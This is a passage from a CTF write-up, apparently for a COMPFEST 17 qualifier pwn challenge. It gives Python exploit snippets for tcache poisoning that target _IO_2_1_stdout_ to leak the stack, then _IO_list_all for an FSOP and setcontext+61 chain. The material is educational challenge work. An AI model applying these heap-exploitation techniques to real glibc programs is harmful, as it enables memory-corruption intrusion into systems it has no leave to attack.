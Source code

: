 ![alt](../../../img/CTFNational/COMPFEST_17_CTF_Qual/Overflow2.png)


Then after that do like `house of plastic` where we clean the tcache then allocate mangle stdout. After it we can just alloc 2 time and last alloc will be our input to write.

```python
free(1)
free(2)
free(1)
for i in range(7):
    alloc(0, 0x38, b"A")
alloc(0, 0x38, p64(mangle(heap, libc.sym["_IO_2_1_stdout_"])))
alloc(0, 0x38, b"A")
alloc(0, 0x38, b"B")
alloc(0, 0x38, stdout_leak(libc.sym["environ"]))
```

I'm using stdout to leak the stack but after that didn't find any good ret address to overwrite. 

Suddenly i remember one of the idea using `_IO_list_all` and [FSOP](https://niftic.ca/posts/fsop/) to control all register in the stack using [setcontext + 61](https://4xura.com/pwn/pwn-travelgraph/).

```python
alloc(0, 0x28, p64(0x31)*3 + b"\x31")
alloc(1, 0x28, p64(0x31)*3 + b"\x31")
free(0)
alloc(0, 0x28, b"A"*0x28 + b"\x21")
alloc(0, 0x28, p64(0x31)*3 + b"\x31")

alloc(0, 0x28, p64(0x21)*3 + b"\x21")
alloc(2, 0x28, p64(0x21)*3 + b"\x21")
free(0)
alloc(0, 0x28, p64(0x21)*5 + b"\x21")
alloc(0, 0x28, p64(0x21)*3 + b"\x21")
free(1)
free(2)
free(1)
for i in range(7):
    alloc(0, 0x18, b"A")
alloc(0, 0x18, p64(mangle(heap, libc.sym["_IO_list_all"])))
alloc(0, 0x18, b"A")
alloc(0, 0x18, b"B")
```
